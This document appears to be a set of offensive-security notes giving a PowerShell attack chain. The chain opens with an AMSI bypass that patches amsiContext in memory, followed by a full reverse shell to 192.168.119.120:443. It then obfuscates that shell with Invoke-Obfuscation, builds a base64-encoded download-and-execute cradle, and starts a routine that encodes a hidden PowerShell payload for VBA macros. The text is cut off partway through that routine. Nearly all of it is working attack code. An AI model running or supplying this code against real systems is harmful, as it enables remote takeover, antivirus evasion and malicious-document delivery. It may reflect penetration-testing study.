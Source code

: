 `run0.txt`

```pwsh
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)

$client = New-Object System.Net.Sockets.TCPClient('192.168.119.120',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### Invoke-Obfuscation

```pwsh
Import-Module ./Invoke-Obfuscation/
Invoke-Obfuscation
```

```
set scriptpath run0.txt
TOKEN
ALL
1
```

Store the output in `run.txt`

### Base64 Encode Powershell Command

```pwsh
$Text = 'iex((new-object system.net.webclient).downloadstring("http://192.168.119.120/run.txt"))'                                                        
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)                    
$EncodedText = [Convert]::ToBase64String($Bytes)                            
$EncodedText
```

### Obfustcate VBA

```pwsh
$payload = "powershell -exec bypass -nop -w hidden -e <base64-encoded command>"
# $payload = "winmgmts:"
# $payload = "Win32_Process"
# $payload = "Report.doc"

[string]$output = ""

$payload.ToCharArray() | %{
    [string]$thischar = [byte][char]$_ + 19
    if($thischar.Length -eq 1)
    {
        $thischar = [string]"00" + $thischar
        $output += $thischar
    }
    elseif($thischar.Length -eq 2)
    {
        $thischar = [string]"0" + $thischar
        $output += $thischar
    }
    elseif($thischar.Length -eq 3)
    {
        $output += $thischar
```